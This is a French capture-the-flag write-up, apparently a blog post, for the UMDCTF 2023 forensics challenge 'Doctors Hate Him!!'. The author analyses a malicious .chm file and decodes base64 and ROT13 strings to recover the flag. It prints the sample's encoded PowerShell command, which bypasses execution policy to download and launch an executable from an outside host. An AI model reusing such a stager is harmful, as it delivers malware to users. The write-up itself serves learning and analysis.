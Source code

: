 ```yaml
---
title: "UMDCTF - Forensics[Doctors Hate Him!!]"
date: 2023-05-01T19:11:46+02:00
author: "Kira"
description: "Writeups du challenge Doctors hate him!! de UMDCTF 2023"
images: []
resources:
featuredImage: "images/umdctf/banner_2023.png"
featuredImagePreview: "images/umdctf/banner_2023.png"

tags: ["writeups", "ctf", "umdctf", "forensics"]
categories: ["writeups"]

lightgallery: true

toc:
  auto: false
---
```



<!--more-->

![Description](images/umdctf/doctors_hate_him/Untitled.png "Description du challenge")

## Introduction

La description de ce challenge n’est pas très parlante, si ce n’est que l’intitulé nous fait penser à un malware.

Ayant il n’y a pas longtemps entendu parler de la petite nouveauté sur virus total concernant l’analyse de malware. Je me suis dit que cela est l’occasion rêvée de tester celui ci 😃

## Investigation

On se rend donc sur [virustotal.com](http://virustotal.com) et on commence par uploader le fichier Doctors-Hate-Him.chm 

Celui-ci est directement détecté comme étant un malware 

![analyse](images/umdctf/doctors_hate_him/Untitled%201.png "analyse du malware")

Nous pouvons regarder l’onglet **Behavior** pour voir les différentes informations remontées par virus total. Nous pouvons voir que ce malware flag plusieurs règles de détéction décrites ci-dessous: 

![regles](images/umdctf/doctors_hate_him/Untitled%202.png "règles matchées")

Nous pouvons voir les différentes connexions de ce malware vers des sources externes :

![connexion](images/umdctf/doctors_hate_him/Untitled%203.png "Connexion externes")

Ici, je décide d'aller vérifier ce qui se trouve à la racine de ce serveur HTTP qui est utilisé pour mettre à disposition le fichier explorer.exe.

![serverhttp](images/umdctf/doctors_hate_him/Untitled%204.png "Vérification du serveur http")

En regardant le fichier present.txt, on peut apercevoir ce qui semble être une chaîne de caractères encodée en base64.

![flag 1](images/umdctf/doctors_hate_him/Untitled%205.png "Découverte du premier flag")

Une fois décodée, celle-ci nous donne ce qui semble être la 3ème partie du flag.
(On comprend donc qu'il va encore falloir trouver deux parties du flag)

```powershell
Sliver really does sound like a pokemon... anyways pew pew! Part 3: _malware_back_bozo}
```

Dans l'onglet "Relation", on peut voir les différents liens avec le malware.

![liens](images/umdctf/doctors_hate_him/Untitled%206.png "Liens avec d'autres fichiers")

On retrouve l'URL du serveur HTTP et également les fichiers embarqués, comme ici le fichier depressed_pokemon_trainer.png.

Je décide donc d'ouvrir le malware avec 7zip afin de voir ce qu'il cache dans ses entrailles. 😄

![extraction](images/umdctf/doctors_hate_him/Untitled%207.png "Extraction des fichiers du malware")

On peut voir que celui-ci contient un fichier test.html qui attire mon attention.
Je vérifie d'abord ce qu'il contient en l'ouvrant avec Notepad++ afin d'être sûr qu'il n'est pas malveillant (on ne sait jamais 😁).

![html](images/umdctf/doctors_hate_him/Untitled%208.png "Code du fichier htlm")

Celui-ci contient également une chaîne de caractères en base64 qui, une fois décodée, nous donne :

```powershell
UMDCTF{1997_called_
```

Parfait, nous avons la première partie du flag. Il en reste une autre.

Je remarque également sur la page qu'une commande PowerShell encodée est présente :

```powershell
cmd.exe,/c powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA
```

Afin de décoder correctement la commande on va se rendre sur Cyberchief : [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

Mettre la chaîne de caractères encodée et appliquer les filtres suivants pour bien décoder la commande :

![filtre](images/umdctf/doctors_hate_him/Untitled%209.png "Filtre CyberChief")

Cela nous donne : 

![resultat](images/umdctf/doctors_hate_him/Untitled%2010.png "Décodage de la commande")

La dernière partie de la commande me fait penser à une partie du drapeau.
Cela donnerait :

```powershell
UMDCTF{1997_called_gurl_jnag_gurve_malware_back_bozo}
```

En essayant de valider le flag, cela est refusé.
Je réfléchis et me dis que la deuxième partie n'a ni queue ni tête.
J'ai donc pensé à tester une encryption classique : le ROT13.

Bingo 🙂 cela nous donne : they_want_their

Le Flag final est donc : 

```powershell
UMDCTF{1997_called_they_want_their_malware_back_bozo}
```